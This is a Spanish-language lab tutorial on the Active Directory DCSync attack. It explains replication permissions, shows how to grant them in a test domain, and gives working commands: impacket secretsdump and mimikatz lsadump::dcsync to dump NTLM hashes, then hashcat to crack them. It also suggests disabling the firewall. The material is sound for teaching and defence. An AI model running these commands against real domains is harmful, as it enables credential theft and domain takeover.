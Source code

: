 # DCSync

## ¿CÓMO SE PRODUCE ESTA VULNERABILIDA?

Para entender la vulnerabilidad DCSync primero debemos entender ¿Qué es MS-DRSR?. MS-DRSR (***Microsoft Domain Replication Service Remote***) es el protocolo utilizado en un entorno de Active Directory de replicación de la base de datos NTDS.

> *NTDS es el servicio que almacena información sobre usuarios, grupos, etc. incluyendo los hashes de las contraseñas de los usuarios.*
> 

Para que un DC (***Domain Controller***) repliquen la información de su base de datos NTDS en otro objeto de la red, por lo general un dominio, este objeto debe tener en las DACLs del dominio principal una ACE que indique que este objeto tendrá permisos de replicación, a estos permisos se les llama **DS-Replication-Get-Changes**, **DS-Replication-Get-Changes-In-Filtered-Set** y **DS-Replication-Get-Changes-All**. Con estos permisos aplicados a un objeto el Dominio compartirá la información de su base de datos NTDS para dicho objeto por medio al protocolo MS-DRSR.

Una vez entendiendo esto podemos comprender que si un usuario tuviera dichos permisos podría solicitar una petición para “replicar” la información de la base de datos NTDS y podría obtener los hashes de las contraseñas que más adelante podría crackear.

---

## PROVOCANDO LA VULNERABILIDAD

Para hacer que se produzca esta vulnerabilidad vamos a tomar un usuario cualquiera, sin importar si este tiene o no bajos privilegios, y vamos a darle los permisos de **DS-Replication-Get-Changes**, **DS-Replication-Get-Changes-In-Filtered-Set** y **DS-Replication-Get-Changes-All**.

Así que vamos a dirigirnos a nuestro ***Administrador del Servidor > Herramientas > Usuarios y equipos de Active Directory***, una vez allí en el menú lateral izquierdo hacemos click derecho sobre nuestro dominio y damos click sobre propiedades.

![Untitled](images/Untitled.png)

Una vez en las propiedades damos click donde dice ***Seguridad*** y luego en el boton de ***Agregar***.

![Untitled](images/Untitled%201.png)

En la nueva ventana emergente que se abre agregamos el objeto al que queremos darle los privilegios y damos click en ***Aceptar***.

![Untitled](images/Untitled%202.png)

Por último, seleccionamos nuestro usuario, le permitimos los siguientes permisos y aplicamos los cambios.

![Untitled](images/Untitled%203.png)

Con esto la vulnerabilidad está presente en la red del dominio.

---

## ¿CÓMO EXPLOTAR LA VULNERABILIDA?

Si de alguna manera logramos vulnerar al usuario **daniele.ethelind** desde allí podríamos realizar la petición de la base de datos NTDS al Domain Controller y así dumpear toda la base de datos NTDS y obtener cualquier hash NTLM de cualquier usuario, incluyento de usuarios administradores.

### Explotación desde Linux con `impacket` .

Usaremos el módulo `***secretsdump***` de `***impacket`*** de la siguiente manera:

```bash
impacket-secretsdump -just-dc [domain]/[user]:[password]@[dc-ip]
```

`***-just-dc***` extrae los hashes NTLM y hashes de Kerberos del fichero NTDS.DIT. Luego indicamos el ***dominio***, el ***usuario***, la ***contraseña*** de dicho usuario y la ***IP de Domain Controller***. Un ejemplo de uso es el siguiente:

```bash
impacket-secretsdump -just-dc cisco.local/daniele.ethelind:D3thelind@192.168.56.136
```

El resultado es el siguiente:

![Untitled](images/Untitled%204.png)

### Explotación desde Windows con `mimikatz` .

Si tenemos una máquina Windows agregada al dominio e iniciamos sesión con el usuario previamente vulnerado. Ahora solo nos dirigimos al navegador y pegamos el siguiente enlace [[https://github.com/ParrotSec/mimikatz/tree/master/x64](https://github.com/ParrotSec/mimikatz/tree/master/x64)] y nos descargamos el ***mimikatz.exe***.

![Untitled](images/Untitled%205.png)

> *Es probable que el Firewall detecte este binario como un software malisioso, por ende, es recomendable desactivarlo para fines didacticos.*
> 

Abrimos una powershell, nos dirigimos al directorio donde se descargó el binario y lo ejecutamos de la siguiente manera:

![Untitled](images/Untitled%206.png)

Se nos va a ejecutar una consola interactiva en la cual vamos a llamar al siguiente comando:

```bash
lsadump::dcsync /user:[DOMAIN]\[USER_TO_DUMP]
```

En mi caso:

```bash
lsadump::dcsync /user:cisco\Administrador
```

Y así obtuvimos el hash NTLM del usuario Administrador desde un usuario sin privilegios pero, con permisos para obtener una copia de la base de datos NTDS del dominio.

![Untitled](images/Untitled%207.png)

---

## ¿CÓMO CRACKEAR UN HASH NTML?

Como podemos ver ya podríamos guardar los hashes e intentar crackearlos de manera offline. En mi caso voy a mostrar como crackeo con *`**hashcat**`* el hash del usuario Administrador que es el primero que aparece en la imagen.

Primero vamos a introducir el hash en un archivo y con el siguiente comando vamos a crackear el hash.

```bash
hashcat -a 0 -m 1000 *HASH_FILE* *DICTIONARY_FILE -O*
```

En mi caso:

```bash
hashcat -a 0 -m 1000 admin.hash dictionary.txt -O
```

Y como resultado obtenemos la contraseña crackeada.

![Untitled](images/59aed1b1-350f-4061-ad53-63339af0636c.png)
